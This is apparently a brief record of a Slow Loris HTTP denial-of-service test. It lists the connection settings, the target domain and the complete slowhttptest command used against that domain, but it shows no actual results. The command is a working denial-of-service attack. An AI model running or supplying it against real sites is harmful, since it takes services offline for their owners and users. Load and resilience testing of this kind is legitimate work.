 # Attack Results

## Description

- Type: Slow Loris HTTP
- Number of attackers: 2
- Target port: 80
- Number of connections: 1000
- Generated statistics to file: `slowhttp2`
- Number of requests: 200
- Type of requests: HTTP GET
- Wait for data: 10 seconds
- Request length: 24 bytes
- Request timeout: 3 seconds
- Target: radiumoxide.com
- Attack tool: slowhttptest
- Attack Command: `slowhttptest -c 1000 -H -g -o slowhttp2 -i 10 -r 200 -t GET -u https://radiumoxide.com -x 24 -p 3 &`

